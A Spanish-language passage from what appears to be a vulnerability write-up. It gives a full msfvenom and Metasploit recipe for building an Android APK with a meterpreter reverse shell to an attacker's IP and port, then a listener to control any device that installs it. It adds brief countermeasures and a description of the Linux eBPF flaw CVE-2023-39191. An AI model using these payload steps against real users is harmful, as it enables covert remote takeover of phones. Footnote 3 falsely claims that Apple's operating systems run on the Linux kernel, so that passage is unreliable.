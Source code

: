 ## Exploración y explotación

Para explotar esta vulnerabilidad lo unico que necesitariamos es una máquina con kali linux para crear el apk que contendrá una reverse shell hacia nuestra máquina, de esta manera cuando se instale en un dispositivo, tendremos control total sobre ese dispositivo.

Los pasos para realizar la explotación son los siguientes:

```bash
# Creamos la app maliciosa indicandole nuestra Ip y el puerto 443 que es por donde estaremos a la escucha:
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -o app.apk
# Abrimos la consola:
msfconsole
# Usamos el multihandler:
use /multi/handler
# Modificamos el payload con nuestra dirección y puerto que hemos especificado en el apk:
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.120
set LPORT 443
# Iniciamos el payload:
run
# Ahora estaremos a la escucha para cuando un atacante acceda a la app infectada, podamos tener acceso total a su dispositivo.
```

## Contramedidas

-No descargar nunca apk's desconocidas que suelen ofrecernos servicios de pago de forma gratuita ya que estas suelen tener malware.
-Actualizar siempre el móvil a la última versión disponible.
-Tener instalado siempre un antivirus/antimalware en el dispositivo.

<br>

### 9 CVE-2023-39191 - Kernel de Linux eBPF

#### Descripción

La vulnerabilidad CVE-2023-39191 es una vulnerabilidad de validación de entrada en el subsistema _eBPF_[1] del kernel de Linux. Estos programas se pueden utilizar para una variedad de propósitos, como la supervisión del rendimiento, el filtrado de tráfico y la creación de reglas de firewall.

Esta vulnerabilidad se produce debido a una falta de validación de entrada en el subsistema eBPF. Esto significa que un atacante puede proporcionar datos maliciosos a un programa eBPF que el kernel ejecutará sin verificar.

#### Impacto

- Base score: 8.2 Alto
- Impact score: 6
- Exploitability score: 1.5

Esta vulnerabilidad tiene un impacto grave en los sistemas vulnerables, dado que un atacante que pueda explotarla puede ejecutar código en el contexto del kernel. Esto le permitiría al atacante tomar el control total del sistema, acceder a datos confidenciales o causar múltiples daños.


[1]: **eBPF** (_Extended Berkeley Packet Filter_) es una máquina virtual que se ejecuta dentro del kernel de Linux. Esta funciona como un marco de programación que nos permite ejecutar de forma segura programas en código máquina en el kernel de Linux sin cambiar el código del mismo.
[2]: **CAP_BPF** Consiste en la capacidad de cargar y modificar programas BPF en el kernel.
[3]: La vulnerabilidad CVE-2023-41995 se encuentra en el kernel de Linux, pero afecta también a los sistemas operativos de Apple que hacen uso del mismo, entre los que se encuentran iOS, ipadOS, macOS, tvOS o watchOS.
[4]: Un ataque de envenenamiento de caché de DNS consiste en proporcionar información maliciosa a los solucionadores de DNS, con el objetivo que estos envíen la dirección IP equivocada a los clientes, dirigiéndolos al sitio que el atacante desee.